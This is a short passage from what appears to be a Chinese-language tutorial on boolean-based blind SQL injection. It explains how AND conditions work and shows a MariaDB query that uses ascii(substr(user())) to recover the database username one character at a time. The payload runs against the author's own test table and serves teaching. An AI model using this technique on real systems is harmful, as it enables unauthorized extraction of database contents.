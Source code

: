 ```shell
```
这是因为条件语句的执行判定为先判定and结果
1=1结果为1，当前面的select语句结果为1时，便能输出正确的结果，那么问题就是前面的select永真，而1=2永假，所以and 1=2输出的结果为假
贴一张ascii编码表

![编码表](./8.jpg)

而结合上面的注入基础知识，我们看看在mysql中的执行结果
```shell
MariaDB [sql]> select * from users where id ='1' and ascii(substr((select user()),1,1))=114;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```
可以看到输出了正确的结果，就这样，我们可以知道user()的第一位的ascii编码为**114**，也就是**r**
